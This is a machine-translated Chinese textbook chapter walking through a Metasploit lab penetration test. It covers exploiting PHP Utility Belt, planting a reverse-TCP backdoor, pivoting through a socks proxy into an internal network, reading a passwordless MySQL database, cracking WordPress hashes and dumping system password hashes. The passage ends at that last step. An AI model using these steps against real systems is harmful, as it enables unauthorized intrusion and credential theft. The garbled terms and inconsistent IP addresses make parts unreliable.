# 利用 Metasploit 开发现实世界的挑战

欢迎这一章是本书最后也是最复杂的一章。在继续本章之前，我建议您通读前面的所有章节和练习。但是，如果您已经完成了所有任务，并且自己做了一些研究，那么让我们继续面对现实世界的挑战，并使用 Metasploit 解决它们。在本章中，我们将介绍两种基于实际问题的场景，即作为渗透测试人员和国家资助的黑客。这两个挑战都提出了不同的要求；例如，与公司渗透测试人员相比，规避通常与执法网络玩家更相关，在系统上实现持久性也是如此。本章的议程是让您熟悉以下内容：

*   转向内部网络

*   使用 web 应用程序错误获取访问权限

*   破解密码散列

*   将目标系统用作代理

*   逃避杀毒

还有更多。我们将制定战略，对目标实施完美的攻击，并寻找每一个可能最终向目标系统投掷炮弹的机会。因此，让我们开始吧。

# 场景 1：镜像环境

假设你自己是一个渗透测试人员，负责在现场项目中对单个 IP 进行黑盒渗透测试。您的工作是确保服务器及其上运行的应用程序中不存在任何漏洞。

# 了解环境

由于我们知道我们将在现场环境中执行测试，我们可以总结测试，如下表所示：

| **范围内 IP 数量** | 1. |
| **测试策略** | Web 应用程序和服务器 |
| **IP 地址** | `192.168.10.110` |
| **拟进行的试验总结** | 端口扫描测试 Web 应用程序漏洞测试服务器漏洞损害连接到目标主机的任何其他网络 |
| **目标** | 获得对服务器的用户级访问权限将权限升级到可能的最高级别访问 web 和服务器应用程序的凭据 |
| **试验类型** | 黑盒试验 |

此外，让我们也保留整个测试的图表视图，以便我们更容易记住和理解：



我们可以在前面的图中看到，到目前为止，我们没有多少细节，只有目标的 IP 地址。让我们快速启动 Metasploit 并创建一个新的`workspace`并切换到它：


# 使用 DB\u NMAP 对目标进行指纹识别

如前几章所述，创建一个新的`workspace`并使用它将确保当前结果不会与数据库中已有的扫描结果合并；因此，建议为所有新项目创建一个新的`workspace`。让我们在一些最通用的端口上快速对目标执行 Nmap 扫描，如以下屏幕截图所示：


欢迎来到没有阳光的地方。目标上没有运行易受攻击的服务。然而，我们得到的唯一好信息是目标运行的是 Windows 操作系统，可能是 Windows Server 2008 或 Windows Server 2012。那我们现在该怎么办？让我们尝试手动连接到端口 80 上的服务器，并查找特定于 web 应用程序的漏洞：



连接到端口 80，我们可以看到 XAMPP 的默认页面显示出来，上面说 XAMPP 的版本是 5.5.30，这是最新的版本。另一个令人失望的是：由于该版本没有漏洞，我们无法攻击它。但是，如果我们弄清楚这个 XAMPP 服务器上承载了哪些应用程序，仍然有可能。要做到这一点，让我们快速使用`auxiliary/scanner/http/brute_dirs`模块，并尝试使用蛮力强制目录结构来找出在 XAMPP 下运行的应用程序：


我们已经使用`setg`命令将`RHOSTS`设置为`192.168.10.110`，将`THREADS`设置为`20`。让我们将`FORMAT`设置为`a,aa,aaa,aaa`。将格式设置为`a,aa,aaa,aaa`将意味着辅助模块将开始尝试从单个字符的字母数字序列，然后是两个字符、三个字母，最后是四个字母的字母数字序列来强制执行目录。为了简化，假设目标有一个名为`vm`的目录；如果我们从`FORMAT`中删除`aa`，则不会对其进行检查。让我们快速运行模块，看看是否有有趣的内容：


我们只找到了一个目录，那就是`/img/`目录，看起来不太可能。此外，即使有大量的线程，这个搜索也将是惊人的和非穷尽的。让我们使用一个更简单的模块来计算目录结构，如以下屏幕截图所示：



我们现在使用的是`auxiliary/scanner/http/dir_scanner`模块，它使用基于字典的暴力强制，而不是像`brute_dirs`模块那样使用纯暴力。一个好的方法是首先使用这个模块，根据它提供的细节，如果需要，我们可以使用`brute_dirs`模块。无论如何，让我们运行模块并分析输出，如下所示：



我们可以看到这里列出了一些目录。但是，响应代码为 200 的目录是可以访问的目录。

响应代码 200 正常，404 表示未找到资源，403 表示禁止状态，表示不允许查看资源，但它确实存在。因此，最好记下 403 个错误。

我们可以看到我们有一个名为 blog 的目录。让我们在 web 浏览器中浏览到它，并查看它正在运行的应用程序：



浏览`/blog/`URL，我们可以看到目标系统上运行着一个 WordPress 网站。我们可以随时从 WordPress 中检查`readme.html`文件以检查版本号，大多数管理员通常会忘记删除此文件，这使得攻击者更容易通过对版本号进行指纹识别来锁定 WordPress 网站：


WordPress 网站在 4.7 版上运行，该版本没有核心已知漏洞。

各种 WordPress 插件包含可能导致整个站点受损的漏洞。建议使用`wpscan`工具检查 WordPress 安装是否存在各种缺陷。

# 访问易受攻击的 web 应用程序

我们还看到了另一个响应代码为 200 的链接，即`/php-utility-belt/`。让我们在浏览器中尝试一下，看看是否可以获得以下内容：


PHP 实用工具 Belt 是一组方便开发人员使用的工具。但是，它不应该存在于生产环境中。PHP 实用程序传送带的 GitHub 页面显示以下内容：

此应用程序允许您运行任意 PHP 代码，并打算在开发机器上本地托管。因此，它不应该存在于生产环境或公众可访问的环境中。你已经被警告过了。

因此，让我们尝试在 Metasploit 中搜索 PHP 实用程序带，看看是否存在影响此应用程序的漏洞。我们将看到，我们有一个 PHP 实用程序 Belt 应用程序的漏洞。让我们使用该模块并尝试利用该应用程序，如以下屏幕截图所示：


让我们将`RHOST`的值设置为`192.168.10.110`并运行模块，如下图所示：


是 啊我们有米表进入目标。让我们看看目录结构，并执行一些利用后功能：


正如我们使用 Nmap 预测的那样，目标是一个**Windows Server 2012 R2 版本**。有了适当数量的信息，让我们更新测试的图表视图，如下所示：



从前面的图片中，我们现在有了与目标上运行的操作系统和应用程序相关的信息，并且我们能够运行任何命令或执行我们想要的任何攻击后任务。让我们尝试深入网络，检查是否可以找到任何其他连接到此机器的网络。让我们运行`arp`命令，如下面的屏幕截图所示：


我们可以看到，我们为 shell 创建了一个新的通道，但是`arp`命令不起作用。`arp`命令的失败是由于使用了 PHP MeterMeter 和一些标准 API 函数，而 PHP MeterMeter 无法很好地处理网络。

# 从 PHP 计量器迁移到 Windows 计量器

为了避免执行网络命令的问题，让我们快速生成一个`windows/meterpreter/reverse_tcp`类型的后门并在目标系统上执行，如下面的屏幕截图所示：



让我们在一个单独的终端中生成另一个 Metasploit 实例，并为前面的`MicrosoftDs.exe`后门快速启动一个匹配的处理程序，该后门将连接回端口`1337`：


由于我们需要多次运行利用漏洞处理程序，因此我们使用`makerc`命令为最后五个命令创建了一个资源脚本。回到我们的第一个 MeterMeter 外壳，让我们使用 upload 命令将`MicrosoftDs.exe`后门文件上传到目标上，如下面的屏幕截图所示：



我们可以看到，我们成功地将我们的后门上传到目标。让我们使用`execute`命令执行它，如下面的屏幕截图所示：



一旦发出上述命令，我们就可以看到 Windows MeterMeter shell 可以访问 handler 选项卡中的目标，如以下屏幕截图所示：


猛敲我们让 windows MeterMeter 访问目标。让我们更新图解视图，如下所示：


我们现在可以删除 PHP MeterMeter 并继续使用 windows MeterMeter 外壳。

让我们发出`ipconfig`命令，看看另一个网络是否配置了不同的网卡：


我们知道主机设置了一个额外的 IP 地址`172.28.128.5`，该网络上可能存在一些系统。但是，我们无法直接连接到网络，因为它是内部网络，我们无法访问。我们需要一种机制来使用受损系统作为内部网络的代理。

# 转向内部网络

Metasploit 提供了通过现有计量器外壳连接到内部网络的功能。为了实现这一点，我们需要将内部网络的路由添加到 Metasploit，以便它能够将来自系统的数据透视到内部网络范围内的预期主机。让我们使用`post/windows/manage/autoroute`模块向 Metasploit 添加内部网络路由，如下图所示：



我们将`SESSION`设置为`1`，因为`1`是我们 MeterMeter 会话的会话 ID，将`SUBNET`设置为我们想要的网络范围，即`172.28.128.0`。让我们`run`对模块进行分析，输出如下：


我们可以看到，到目标子网的路由现在添加到 Metasploit 中。我们现在可以快速地进一步测试环境。

# 通过流量计枢轴扫描内部网络

让我们快速`run`进行端口扫描，如下图所示：



在整个范围内运行端口扫描，我们可以看到我们有一个主机，即，`172.8.128.3`，具有开放的端口，分别是 3306（一个流行的 MySQL 端口）和端口 80（HTTP）。让我们使用`auxiliary/scanner/http/http_version`快速确定端口 80 上运行的 HTTP 服务器的指纹。我们可以看到，我们在`192.168.10.110`上也运行了相同版本的 Apache 软件。IP 地址`172.28.128.3`可以是镜像测试环境。但是，我们在该主机上没有找到任何 MySQL 端口。让我们快速更新图表视图并开始测试 MySQL 服务：


让我们在 MySQL 服务器上运行一些快速测试，如以下屏幕截图所示：



运行`mysql_version`命令，我们可以看到 MySQL 的版本是 5.5.5-10.1.9-5。让我们运行`mysql_login`模块，如下图所示：



由于 MySQL 位于内部网络上，大多数管理员不配置 MySQL 服务器密码，并使用空密码保留默认安装。让我们试着运行一个简单的命令，如`show databases`并分析输出，如下面的屏幕截图所示：


很有趣！我们有`192.168.10.110`运行 WordPress 安装，但在端口扫描中没有发现任何 MySQL 或任何其他数据库端口打开。这是运行在`192.168.10.110`上的 WordPress 网站的数据库吗？看起来是这样！让我们尝试从数据库中获取一些详细信息，如以下屏幕截图所示：



从 wordpress 命令发送**show tables，将得到数据库中的表列表，显然这是一个真正的 wordpress 数据库。让我们尝试获取 WordPress 站点的用户详细信息，查询如以下屏幕截图所示：**



太神了我们获得了管理员用户名及其密码散列，我们可以将其提供给一个工具，如`hashcat`检索纯文本密码，如以下屏幕截图所示：


我们将检索到的哈希存储在一个名为 dhash 的文件中，并提供了一个包含密码的字典文件`pass.txt`。开关`-m 400`表示我们正在破解 WordPress 的哈希。

我们现在可以登录 WordPress 站点，更好地查看插件、主题等。但是，您还必须报告一个弱密码漏洞，因为 Admin@123 这是很容易猜到的。

现在让我们在内部主机上运行`dir_scanner`模块，看看是否可以在 web 应用程序前端找到一些有趣的东西：


我们知道我们只有一个可访问的测试目录。但是，我们无法浏览它，因为网络不在我们的常规子网中。

# 在 Metasploit 中使用 socks 服务器模块

要从系统上的非 Metasploit 应用程序连接到内部网络，我们可以在 Metasploit 中设置`socks4a`模块，并可以通过 MeterMeter 会话代理来自任何应用程序的数据。让我们在后台将 MeterMeter 设置为`192.168.10.111`并按如下方式运行`auxiliary/server/socks4a`模块：


我们将`SRVHOST`设置为`127.0.0.1`并将`SRVPORT`默认设置为`1080`后执行模块。

在运行上述模块之前，在 Kali Linux 的`/etc/proxychains.conf`文件中将主机更改为 127.0.0.1，端口更改为 1080。

通过设置 socks 服务器，我们现在可以在目标上运行任何非 Metasploit 工具，方法是添加`proxychains4`（在 OS X 上）/ProxySchains（在 Kali Linux 上）作为前缀。我们可以在以下示例中看到这一点：



我们知道我们通过`proxychains4`对目标进行了 Nmap 扫描，结果成功了。让我们使用`wget`和`proxychains4`来获取`test`目录中的索引页：


让我们查看`index.html`文件的内容，并查看正在运行的应用程序的标题：



哇！这只是`php_utility_belt`在该主机上运行的另一个实例。我们知道该怎么做，对吗？我们在`192.168.10.110`上启动用于镜像服务器的相同模块，如下所示：



我们先将`RHOST`的值设置为`172.28.128.3`、`TARGETURI`的值设置为`/test/ajax.php`后再运行模块，因为目录名是 test 而不是`/php-utility-belt/`，如下图所示：



默认模块将使用`reverse_tcp`有效负载运行。但是，由于我们是通过`192.168.10.110`上的 MeterMeter 会话攻击主机，因此建议利用`bind_tcp`有效负载的服务，因为它在直接连接上工作，这将通过 MeterMeter 会话发生，从而消除返回我们的目标`172.28.128.3`。我们知道我们的会话是 PHP MeterMeter；让我们切换到 Windows MeterMeter 会话，就像我们之前所做的那样，在已经使用的端口之外的任何其他端口上运行单独的处理程序。

让我们快速创建、上传并执行另一个后门文件，连接回端口`1338`，因为我们已经在使用端口`1337`。另外，我们还设置了一个处理程序来接收端口`1338`上的通信，如下面的屏幕截图所示：



哎呀！我们让 windows MeterMeter 访问目标。让我们获取一些系统信息，如以下屏幕截图所示：



我们可以看到操作系统是 Windows Server 2008，并且我们具有管理员权限。让我们使用`get system`命令升级到系统级权限，如前面的屏幕截图所示。

# 以明文形式转储密码

拥有系统级权限，让我们使用`hashdump`命令转储密码散列，如下所示：

